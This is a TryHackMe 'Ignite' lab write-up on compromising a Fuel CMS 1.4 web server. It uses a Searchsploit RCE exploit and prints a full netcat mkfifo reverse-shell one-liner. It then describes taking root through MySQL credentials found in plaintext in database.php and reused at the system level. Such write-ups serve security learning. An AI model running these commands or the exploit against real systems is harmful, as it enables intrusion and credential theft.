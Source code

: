 **<p align="center">TryHackMe: Ignite</p>**
---

<p align="center">
  <img src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Ignite%20Image%201.png" alt="image alt" width="180" />
</p>

[![Day 11 & 12 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2011%20%26%2012%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

**Topic:** Web application pentesting 

**Started:** 7/2/2025

**Completed:** 7/3/2025

🎯**Objective:** This penetration testing lab is to assess the security posture of a new start-up's web server, which is reportedly experiencing a few issues. The goal is to identify and exploit existing vulnerabilities within the web application to uncover two hidden flags.

<p align="center">+++++++++</p>

Launching the target machine, completing an Nmap scan is the first step to enumerating a target IP `10.10.188.239`.

The scan revealed 1 port being visibly open: Port 80, Service HTTP, Version Apache httpd 2.4.18 ((Ubuntu)).

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%201.png)

Since the Nmap scan confirmed that an HTTP service is running on the target machine, I proceeded to navigate to the IP address in my browser to begin exploring the web application.

Accessing the IP address directed me to the Fuel CMS homepage, which displayed the version number as 1.4.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%202.png)

According to research, **Fuel CMS** is an open-source content management system built on the CodeIgniter PHP framework. It provides a user-friendly interface for content managers while also offering developers the flexibility to customize the application's behavior behind the scenes. In essence, it's both a CMS and a development platform.

Notably, Fuel CMS v1.4 is relatively outdated and is known to contain vulnerabilities, including Remote Code Execution (RCE), making it a strong candidate for exploitation in this challenge.

*(Note: My VM timed out during the process, so I had to relaunch the target machine.)*

While exploring the web server, I checked the `robots.txt` file and found a disallowed path: `/fuel/`. This suggests that the `/fuel/` directory may contain a sensitive interface, likely the CMS backend or admin panel.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%203.png)

Using Searchsploit, I located a known Remote Code Execution exploit for Fuel CMS:
- `linux/webapps/47138.py`

This exploit specifically targets vulnerabilities within the `/fuel/` directory.

I customized the Python code by removing the Burp Suite proxy settings, as they weren’t needed for this setup.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%204.png)

Running the customized exploit successfully launched a non-interactive shell on the target machine.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%205.png)

To upgrade this shell to an interactive one, I opened a Netcat listener on port `5555` and used a reverse shell payload generated from the Reverse Shell Generator website.
The payload I used:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.188.239 5555 > /tmp/f

```

This command quietly creates a named pipe (`mkfifo`) to establish a temporary communication tunnel between the attacker and target, allowing for interactive shell access.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%206.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%207.png)

While testing commands through the non-interactive shell, I encountered the following error:
```
sudo: no tty present and no askpass program specified

```
This hinted that `www-data` might have sudo privileges, but was being prevented from executing commands due to the lack of a proper TTY. In other words, the system couldn’t prompt for a password in this shell type.
To resolve this, I ran the following command to spawn an interactive shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```
This successfully upgraded the shell and allowed smoother command interaction.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%208.png)

Continuing my enumeration, I discovered a file named `database.php` located at:
```
/var/www/html/fuel/application/config/database.php

```
Inside, I found plaintext MySQL root credentials, stored in cleartext within the configuration.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%209.png)

Using the retrieved credentials, I successfully attempted to escalate privileges by switching users. The credentials were reused at the system level, allowing me to gain full root access to the machine.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%2010.png)

With root access established, I was able to locate both challenge flags:
- **User flag:** Found in the home directory
- **Root flag:** Located in `/root`

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%2011.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Ignite/Images/Screenshot%2012.png)

**Lessons Learned:**

This lab reinforced the value of trusting my instincts and staying patient through the troubleshooting process. I initially spent several hours trying to get the exploit to work, and although I had to start over, it allowed me to retrace my steps with confidence and complete the entire process in minutes the next day.

From recognizing an outdated CMS, to exploiting it with an RCE, and finally escalating to root through a reused credential, each step reminded me how small misconfigurations can create major security risks. It also showed me that I’m developing a sharper eye for enumeration and privilege escalation paths, the progress felt incredibly rewarding.

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers
directly. Instead, I’ve documented my full process to support both others and myself in
understanding the vulnerability.

**Resources**:
- [TryHackMe's Ignite Room](https://tryhackme.com/room/ignite)
